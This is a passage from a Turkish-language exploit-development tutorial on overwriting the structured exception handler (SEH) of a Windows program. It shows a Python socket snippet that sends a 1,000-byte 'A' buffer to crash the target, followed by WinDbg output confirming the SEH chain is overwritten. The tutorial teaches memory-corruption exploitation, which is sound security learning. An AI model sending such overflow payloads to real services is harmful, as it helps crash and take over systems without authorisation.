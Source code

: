 	Baglanti = socket(AF_INET,SOCK_STREAM)
	Baglanti.connect(adres)

	cokertkaarsim = "A" * 1000

	Baglanti.send(cokertkaarsim)
	Baglanti.close()

Göndermeden önce tabii ki programı Windbg ile açıyoruz. Ardından programı `g` komutu ile çalıştırıp paketi gönderiyoruz. Akabinde çökme gerçekleşecek ve biz de seh'in durumunu kontrol edeceğiz.

	(740.e74): Access violation - code c0000005 (first chance)
	First chance exceptions are reported before any exception handling.
	This exception may be expected and handled.
	eax=00000000 ebx=7ffdf000 ecx=0035449c edx=00000041 esi=01f6f798
    edi=01f6f6ee eip=5353105f esp=0012fb80 ebp=0012fda8 
	image53530000+0x105f:
	5353105f c7000a000000    mov     dword ptr [eax],0Ah  ds:0023:00000000=????????
	0:000> !exchain
	  0012fd98: 41414141
	  Invalid exception stack at 41414141

Görüldüğü üzre EIP üzerinde hakimiyetimiz olmasa da **SEH** üzerine yazmayı başardık. Bu da demektir ki buradan yürürüz hehe. Şimdi, yavaş yavaş bypass edilmesi kısmına gelmeye çalışıyorum fakat açıklanması gereken yerler çok fazla bu yüzden bir türlü gelemedim. Burada SEH'in neler yaptığını anlamak isteyen arkadaşlarımız önceki **SEH** yazısına bakabilirler, yahut yorum ile anlamadığınız kısımları belirtirseniz yardımcı olmaya çabalarım. Önceki yazıda SEH'in nasıl devreye girdiğini, üzerine yazdığımızda ne elde ettiğimizi, SEH'i kullanarak nasıl program akışını değiştirebileceğimizi ve buna benzer diğer şeyleri öğrenebilirsiniz. Yine de genel olarak **SEH** üzerine yazıldığında neler olduğunu kısaca bir resim üzerinde görelim.

![](/files/gsbypassneoluyor.png)
